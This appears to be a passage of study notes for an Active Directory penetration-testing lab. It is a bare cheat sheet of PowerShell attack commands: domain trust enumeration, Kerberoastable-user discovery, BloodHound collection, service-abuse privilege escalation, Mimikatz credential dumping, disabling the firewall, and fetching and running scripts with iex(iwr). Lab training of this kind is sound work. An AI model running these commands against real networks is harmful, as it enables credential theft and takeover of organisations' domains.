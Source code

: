 ```powershell
Get-NetForestDomain | Get-NetDomainTrust

# If bidirectional
Get-NetForestDomain -Forest eurocorp.local -Verbose | Get-NetDomainTrust

#Kerberoastable users
Get-NetUser -SPN 

# Bloodhound
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All,LoggedOn

# SQL
Import-Module .\PowerUpSQL.psd1
Get-SQLInstanceDomain
```

## 3. Domain Admin Priv Esc

**NOTE : ONCE A LOCAL ADMINISTRATOR RUN PS as ADMINISTRATOR**

```powershell
# Powerups
Invoke-Allchecks

# Abusing services
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student21'

# Run mimikatz
Invoke-Mimikatz
```

## 4. Domain Admin Priv Esc

```powershell
# Local admin user
Find-LocalAdminAccess -Verbose
Invoke-UserHunter -CheckAccess -Verbose

# Enter session
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
$sess
Enter-PSSession -Session $sess

# language mode
$ExecutionContext.SessionState.LanguageMode

# applocker 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Disable FireWall !!!

# Mimikatz
# Modify to make it work without dot sourcing
wget or curl or iex(iwr)
.\Invoke-Mimikatz.ps1
```
